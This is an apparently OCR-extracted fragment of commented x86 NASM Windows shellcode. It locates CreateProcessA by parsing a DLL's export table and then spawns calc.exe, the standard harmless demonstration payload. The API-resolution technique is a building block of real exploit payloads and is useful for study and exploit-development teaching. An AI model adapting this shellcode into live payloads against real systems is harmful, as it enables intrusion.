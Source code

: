 ```nasm
    add ebx, eax                        ; get function name 
    cmp dword [ebx], 0x61657243         ; Crea
    jnz Get_Function
    cmp dword [ebx + 0x4], 0x72506574   ; tePr  
    jnz Get_Function
    cmp dword [ebx + 0x8], 0x7365636f   ; oces
    jnz Get_Function
    cmp word [ebx + 0xa], 0x41737365	; essA
    jnz Get_Function                    ; if we get past here, we know our program has found 'CreateProcessA'

    ; now that we have the ordinal, we need to find the real address of the CreateProcessA function
    mov esi, [edx + 0x24]               ; get the offset to the "AddressOfNameOrdinals" offset from IMAGE_EXPORT_DIRECTORY
    add esi, eax                        ; offset + base address
    mov cx, [esi + ecx * 2]             ; We want index number of an array essentially. Array is full of two-byte numbers. (ecx *2)
    dec ecx                             ; accounting for index [0] of the array
    mov esi, [edx + 0x1c]               ; "AddressOfFunctions" offset
    add esi, eax                        ; offset + base address
    mov edx, [esi + ecx * 4]            ; 4 byte indexes in this new array (ecx * 4)
    add edx, eax                        ; offset + base address. EDX now holds memory addr of CreateProcessA

    ; we now have the address of CreateProcessA inside of EDX. we can call calc.exe by just placing 'calc' on the stack, and setting a pointer to it to satisfy the struct arguments 
    ; for 'lpProcessInformation' and 'lpStartupInfo'

    xor ecx, ecx                ; zero out counter register
    mov cl, 0xff                ; we'll loop 255 times (0xff)
    xor edi, edi                ; edi now 0x00000000

    zero_loop:
    push edi                    ; place 0x00000000 on stack 255 times as a way to 'zero memory' 
    loop zero_loop

    
    push 0x636c6163             ; 'calc'
    mov ecx, esp                ; stack pointer to 'calc'

    push ecx                    ; processinfo pointing to 'calc' as a struct argument
    push ecx                    ; startupinfo pointing to 'calc' as a struct argument
    xor eax, eax                ; zero out
    push eax                    ; NULLS
    push eax
    push eax
    push eax
    push eax
    push eax
    push ecx                    ; 'calc'
    push eax
    call edx                    ; call CreateProcessA and spawn calc
```
